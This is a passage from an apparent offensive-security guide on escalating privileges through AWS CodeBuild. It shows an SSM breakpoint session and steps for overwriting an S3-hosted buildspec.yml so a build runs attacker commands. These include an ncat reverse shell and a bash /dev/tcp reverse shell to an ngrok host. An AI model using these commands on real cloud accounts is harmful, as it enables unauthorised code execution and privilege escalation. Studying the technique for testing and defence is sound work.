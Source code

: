 The codebuild project will need to have a breakpoint:

<pre class="language-yaml"><code class="lang-yaml">phases:
  pre_build:
    commands:
      - echo Entered the pre_build phase...
      - echo "Hello World" > /tmp/hello-world
<strong>      - codebuild-breakpoint
</strong></code></pre>

And then:

```bash
aws codebuild batch-get-builds --ids <buildID> --region <region> --output json
aws ssm start-session --target <sessionTarget> --region <region>
```

For more info [**check the docs**](https://docs.aws.amazon.com/codebuild/latest/userguide/session-manager.html).

### (`codebuild:StartBuild` | `codebuild:StartBuildBatch`), `s3:GetObject`, `s3:PutObject`

An attacker able to start/restart a build of a specific CodeBuild project which stores its `buildspec.yml` file on an S3 bucket the attacker has write access to, can obtain command execution in the CodeBuild process.

Note: the escalation is relevant only if the CodeBuild worker has a different role, hopefully more privileged, than the one of the attacker.

```bash
aws s3 cp s3://<build-configuration-files-bucket>/buildspec.yml ./

vim ./buildspec.yml 

# Add the following lines in the "phases > pre_builds > commands" section
#
#    - apt-get install nmap -y
#    - ncat <IP> <PORT> -e /bin/sh

aws s3 cp ./buildspec.yml s3://<build-configuration-files-bucket>/buildspec.yml

aws codebuild start-build --project-name <project-name>

# Wait for the reverse shell :)
```

You can use something like this **buildspec** to get a **reverse shell**:

{% code title="buildspec.yml" %}
```yaml
version: 0.2

phases:
  build:
    commands:
      - bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/18419 0>&1
```
{% endcode %}
